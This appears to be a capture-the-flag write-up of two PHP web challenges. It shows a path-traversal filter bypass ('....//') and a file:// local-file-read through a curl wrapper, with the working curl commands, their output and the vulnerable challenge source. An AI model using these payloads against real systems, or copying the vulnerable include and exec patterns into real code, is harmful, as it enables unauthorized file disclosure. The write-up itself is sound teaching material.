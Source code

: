 # Web Challenges

### Index
___
1. [Web Ministrypalace](#web-ministrypalace)
2. [Web CaaS](#web-caas)

### Web Ministrypalace
___
![](images/web-ministrypalace.png)

There's not much here except the different language options at the top right corner of the page, which are links to the following:
```html
<a href="?lang=en.php">EN</a>
<a href="?lang=qw.php">QW</a>
```

The `index.php` file provided contains the following php snippet:
```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```
The above php snippet does the following:
1. If the `GET` paramater is empty it loads either `en.php` or `qw.php` at random from the `pages` directory .
2. It tries to prevent a _directory traversal_ attack by replacing `'../'` with an empty string `''`.
    * A _directory traversal_ vulnerability allows an attacker to read an arbitrary file from the target system by specifying its path.
    * eg) `http://target.com/?q=/etc/passwd`
    * the directive `../` is a relative path to the parent directory from the current directory.

We can bypass the filter with `'....//'`, since the first matching `'../'` will get replaced by `''` and the outer `'../'` gets preserved.

Looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile # Copy challenge files
COPY challenge /www
COPY flag /
```
Now we need to locate the `flag` relative to the `pages` directory. 
```shell
$ find . 2>/dev/null               
.
./build_docker.sh
./challenge
./challenge/index.php
...
./challenge/pages
./challenge/pages/qw.php
./challenge/pages/en.php
./flag
```

We can test our exploit on the local docker instance first with the following command.
```shell
$ curl -s "http://172.17.0.2/?lang=....//....//flag" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

``` CHTB{b4d_4li3n_pr0gr4m1ng} ```

___

### Web CaaS
___
![](images/web-caas.png)
The website seems to execute a curl command with the host provided. 
![](images/web-caas-invalid.png)
After testing arbitary hostnames the command executes only upon entering a valid URL such as `http://172.17.0.2`.
![](images/web-caas-valid.png)

Let's analyse the source code provided to understand this better.
- `index.php`
    - It allows is to perform a `GET` or `POST` request to the routes `'/'` and `'/api/curl'` respectively, which in turn execute a method from `CurlController`.

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);          
```
- `CurlController.php`
    - `index()` just routes the user to `index.html` page
    - `execute()` checks if the `ip` parameter of the POST request is set, creates a new command with the url value passed in the request body, excutes it and returns a JSON object. 
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
- `CommandModel.php`
    - the constructor intialiases the curl command.
    - `exec()` calls the inbuilt php `exec()` function to execute the command.
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Since a valid URL can have many different protocols such `http, https, ftp, file,` etc., we can use the file protocol to retrieve the `flag`.

Once again by looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile 
# Copy challenge files
COPY challenge /www
# Copy flag
COPY flag /
```

We can test our exploit on the local docker instance first by running the following command.
```shell
$ curl -X POST -F "ip=file://localhost/flag" "http://172.17.0.2/api/curl" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```CHTB{f1le_r3trieval_4s_a_s3rv1ce}```